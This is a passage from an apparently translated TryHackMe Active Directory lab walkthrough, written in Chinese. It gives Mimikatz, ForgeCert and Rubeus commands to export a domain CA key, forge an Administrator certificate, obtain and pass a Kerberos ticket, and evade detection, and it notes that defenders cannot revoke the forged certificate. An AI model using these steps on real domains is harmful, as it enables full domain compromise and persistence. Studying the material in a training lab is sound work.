 修补这些服务后，我们可以使用 Mimikatz 导出证书：

    mimikatz # crypto::certificates /systemstore:local_machine /export

导出的证书将以 PFX 和 DER 格式存储到磁盘

为了导出私钥，必须使用密码来加密证书。默认情况下，Mimikatz 分配的密码为:mimikatz 。使用 SCP 将此证书下载或复制到您的 AttackBox，然后将其复制到 THMWRK1 上的低特权用户主目录。如果您愿意，还可以在自己的未加入域的 Windows 计算机上执行其余步骤。

### 生成我们自己的证书

现在我们有了私钥和根CA证书，我们可以使用SpectorOps ForgeCert工具为我们想要的任何用户伪造客户端身份验证证书。[ForgeCert](https://github.com/GhostPack/ForgeCert)和Rubeus二进制文件存储在THMWRK1上的C：\Tools\目录中。让我们使用 ForgeCert 生成一个新证书：

    ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 

参数说明：

    CaCertPath - 导出的 CA 证书的路径。
    CaCertPassword - 用于加密证书的密码。默认情况下，Mimikatz 分配的密码为 。mimikatz
    使用者 - 证书的使用者或公用名。这在我们将使用证书的上下文中并不重要。
    主题AltName - 这是我们要使用此证书模拟的帐户的用户主体名称 （UPN）。它必须是合法用户。
    NewCertPath - ForgeCert 将存储生成的证书的路径。
    NewCertPassword - 由于证书需要导出私钥进行身份验证，因此我们必须设置用于加密它的新密码。

我们可以使用 Rubeus 使用证书请求 TGT，以验证证书是否受信任。我们将使用以下命令：

    Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>

让我们分解参数：

    /user - 这指定我们将模拟的用户，并且必须与我们生成的证书的 UPN 匹配
    /enctype - 指定票证的加密类型。将此设置为 对于逃避很重要，因为默认加密算法很弱， 这将导致哈希超交桥警报
    /certificate - 我们生成的证书的路径
    /password - 证书文件的密码
    /outfile - 我们的 TGT 将输出到的文件
    /domain - 我们当前攻击的域的 FQDN
    /dc - 我们从中请求 TGT 的域控制器的 IP。 通常，最好选择运行 CA 服务的 DC

现在我们可以使用Mimikatz加载TGT并向THMDC进行身份验证：

    mimikatz # kerberos::ptt <tgt>

### 我们不再是蓝队的朋友

证书持久性显然更难防御。即使您轮换了被盗帐户的凭据，证书仍将有效。删除持久性的唯一方法是吊销证书。但是，这只有在我们通过合法渠道生成证书时才有可能。由于我们导出了 CA 并自己生成了证书，因此它不会出现在 AD CS 颁发的证书列表中，这意味着蓝队将无法吊销我们的证书。

那么消除持久性的唯一解决方案是什么？好吧，这就是为什么我们不再是朋友。他们将不得不吊销根 CA 证书。但是吊销此证书意味着 AD CS 颁发的所有证书将突然无效。这意味着他们必须为每个使用 AD CS 的系统生成一个新证书。您应该开始了解为什么这种类型的持久性非常危险，并且如果执行，则需要完全重建系统。

---

前面已讨论过安全标识符 （SID）。但回顾一下，SID 用于在连接到资源时跟踪安全主体和帐户的访问权限。但是，帐户上有一个有趣的属性，称为 SID 历史记录。
